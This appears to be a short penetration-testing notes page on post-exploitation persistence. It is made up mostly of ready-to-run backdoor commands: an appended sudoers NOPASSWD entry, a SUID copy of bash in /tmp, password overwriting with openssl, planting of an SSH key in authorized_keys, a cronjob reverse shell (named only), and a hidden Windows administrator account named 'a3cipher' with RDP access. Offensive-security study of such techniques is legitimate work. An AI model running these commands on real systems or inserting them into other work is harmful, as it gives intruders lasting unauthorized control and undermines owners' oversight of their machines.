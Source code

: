 # 4 persistence

## Linux

### Root

- Once obtained root, create administrative backdoors using

```shell
# give sudo access
echo "username ALL=NOPASSWD:ALL" >> /etc/sudoers
```

```shell
# give SUID set bash executable
cp /bin/bash /tmp/bash; chmod +s /tmp/bash
```

```shell
# overwrite passwords
openssl passwd root
```

### SSH

- Check for the existence of a private key in `~/.ssh/id_rsa`.

- Generate your own SSH key using this [tutorial](https://docs.github.com/en/authentication/connecting-to-github-with-ssh/generating-a-new-ssh-key-and-adding-it-to-the-ssh-agent?platform=linux)

```shell
ssh-keygen -t ed25519 -C "your_email@example.com"
```

- Upload public key of SSH key pair to `authorized_keys_file`.

### Cronjob

- Set up cronjob that establishes reverse shell
 
## Windows

### RDP

- Set up RDP accesss using

```shell
net user a3cipher a3cipher /add
net localgroup Administrators a3cipher /add
net localgroup "Remote Management Users" a3cipher /add
```